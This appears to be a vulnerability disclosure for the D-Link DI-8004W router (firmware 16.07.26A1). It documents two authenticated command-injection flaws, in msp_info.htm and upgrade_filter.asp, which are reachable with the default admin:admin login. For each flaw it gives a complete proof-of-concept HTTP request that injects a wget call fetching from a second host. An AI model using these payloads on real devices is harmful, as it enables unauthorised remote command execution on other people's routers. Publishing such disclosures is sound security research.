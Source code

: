 ### D-link DI_8004W rce

Firmware Name: DI_8004W-16.07.26A1.trx

- Model: DI_8004W

-  Version: 16.07.26A1

- Test Environment: Ubuntu 22.04 

- offical website:www.dlink.com

  download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8004W





The DI-8004W is a certified router for internet behavior management.  There are two command execution vulnerability in its jhttpd's msp_info_htm function and upgrade_filter.asp.

affect version:

![image](https://github.com/user-attachments/assets/8288e5da-4021-4bc8-ac01-cd8d42b8c202)




![image](https://github.com/user-attachments/assets/9f0d75fb-1109-4bf3-9ed6-89e8ac40d167)




![image](https://github.com/user-attachments/assets/9fc30bff-b7c0-4af3-9442-fdc1db8efebe)




### exploit 1: function msp_info.htm

After logging in with the default password admin:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/aaa` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1




```

![image](https://github.com/user-attachments/assets/982f8b00-e411-4090-8fe1-27511d0a909f)












### exploit 2: function upgrade_filter.asp

After logging in with the default password admin:admin, accessing the upgrade_filter.asp page, and crafting carefully constructed parameters, it is possible to execute commands.

poc

```
GET /upgrade_filter.asp?path=http://`wget%20http://192.168.0.2:8000/asdf` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1


```

![image](https://github.com/user-attachments/assets/092f686d-6854-488d-8f3b-f1d7291c07ce)
